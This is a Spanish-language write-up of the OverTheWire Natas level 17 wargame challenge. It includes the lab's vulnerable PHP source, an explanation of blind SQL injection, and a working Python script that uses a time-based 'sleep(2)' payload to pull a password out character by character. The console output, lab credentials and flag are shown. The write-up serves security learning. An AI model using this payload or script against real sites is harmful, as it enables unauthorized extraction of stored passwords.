 #Natas Level 16 → Level 17

Username: natas17

URL:      http://natas17.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas17.natas.labs.overthewire.org** 
- **Usuario    : natas17**
- **Contraseña : 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw**

La contraseña la hemos sacado del nivel anterior.

Entramos a la web y nos muestra un campo donde tenemos que meter el nombre de un usuario. Este reto se parece mucho al nivel 15.

Antes de hacer nada vamos a mirar el código fuente del reto:

```php
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        //echo "This user exists.<br>"; 
    } else { 
        //echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
```

Introducimos el nombre del usuario **natas17** para ver que resultado nos da pero no obtenemos ningún mensaje. Probamos con algún otro usuario y tampoco.

Si nos fijamos bien en el código fuente, observamos que los campos para mostrar mensajes **están comentados!** Y es por eso que no nos muestra ningún mensaje.

¿Entonces como podemos saber si el usuario existe o no existe como lo hicimos en el reto de **Natas15**?

La respuesta es no lo sabemos, pero sabemos de otras técnicas de **SQL Injection** que nos pueden servir para este reto.

Vamos a leer algo sobre este tipo de técnica: 

El atacante inyecta comandos SQL porque la aplicación es vulnerable a SQL injection pero nunca puede acceder a los resultados que devuelve la consulta porque la aplicación no los imprime. 
Sin embargo se puede apreciar un comportamiento distinto ante consultas que devuelven datos y consultas que no devuelven datos. 
A partir de este comportamiento distinto se intenta inyectar lógica para extraer la información en base a valores True o False.

**Boolean-based blind:** Se basa en una técnica que intenta extraer información carácter a carácter, insertando tras la consulta válida una consulta de tipo SELECT que comprobará si el carácter solicitado se corresponde con el carácter almacenado en la BD.
**Time-based blind:** Utilizando un principio similar a la técnica anterior, esta vez la consulta SELECT introduce un delay en la BD que solo se ejecutará en el caso de que se cumpla la condición que posteriormente le permitirá al atacante obtener una respuesta de válido o inválido gracias a las esperas en la presentación de los resultados.

Una vez que hemos entendido la técnica, vamos a utilizar un **sleep(2)** en la consulta para saber si es **Verdadero** o **Falso**

Si el resultado es positivo, sabremos que la letra del password es correcta. Si por el contrario nos devuelve un valor **Falso** sabremos que no existe esa letra.

NOTA: Para esta prueba he necesitado leer mucho acerca de **Time-Based SQL Injection** ya que nunca había realizado un ataque así manualmente. He buscado ejemplos en muchos foros y por eso se me a complicado el reto. De todas formas al final lo he conseguido que es lo que importa :smile: 
 
Escribimos el script y lo llamaremos **blindNatas17Injector.py**

```python
import httplib2
import urllib
import time
 
h = httplib2.Http()
h.add_credentials('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
 
passTemporal        = "";
letras              = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
posicion            = 0

contUsuarioExiste   = 0
contUsuarioNoExiste = 0

while posicion < len(letras):
        payload = "natas18\" AND if(password LIKE BINARY \"" + passTemporal + letras[posicion] + "%\", sleep(2), 0);# "
        query = urllib.urlencode(dict(username=payload))
        start = time.time()
        resp, contenido = h.request("http://natas17.natas.labs.overthewire.org/index.php?" + query, method="POST")
        end = time.time()
        if end - start >= 2:
                passTemporal += letras[posicion];
                print("Nueva password encontrada: " + passTemporal)
                posicion = 0
                contUsuarioExiste +=1
                if (len(passTemporal)==32):
                        break;
                continue
        else:
                contUsuarioNoExiste +=1
        posicion += 1

print "-"*70
print "Pruebas Erroneas       = {0}".format(contUsuarioNoExiste)
print "Pruebas Satisfactorias = {0}".format(contUsuarioExiste)
print "-"*70
print "Password Natas16 = {0}".format(passTemporal)
print "-"*70
```

Lo ejecutamos y vamos viendo lo que sale en la consola:

```bash
ikerburguera@:~/Desktop$ python blindNatas17Injector.py 
Nueva password encontrada: x
Nueva password encontrada: xv
Nueva password encontrada: xvK
Nueva password encontrada: xvKI
Nueva password encontrada: xvKIq
Nueva password encontrada: xvKIqD
Nueva password encontrada: xvKIqDj
Nueva password encontrada: xvKIqDjy
Nueva password encontrada: xvKIqDjy4
Nueva password encontrada: xvKIqDjy4O
Nueva password encontrada: xvKIqDjy4OP
Nueva password encontrada: xvKIqDjy4OPv
Nueva password encontrada: xvKIqDjy4OPv7
Nueva password encontrada: xvKIqDjy4OPv7w
Nueva password encontrada: xvKIqDjy4OPv7wC
Nueva password encontrada: xvKIqDjy4OPv7wCR
Nueva password encontrada: xvKIqDjy4OPv7wCRg
Nueva password encontrada: xvKIqDjy4OPv7wCRgD
Nueva password encontrada: xvKIqDjy4OPv7wCRgDl
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlm
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0p
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pF
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFs
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsC
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCs
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsD
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
Nueva password encontrada: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
----------------------------------------------------------------------
Pruebas Erroneas       = 734
Pruebas Satisfactorias = 32
----------------------------------------------------------------------
Password Natas16 = xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
----------------------------------------------------------------------
```

Y nos devuelve la contraseña :sunglasses: :beers:

**FLAG** = {xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP}



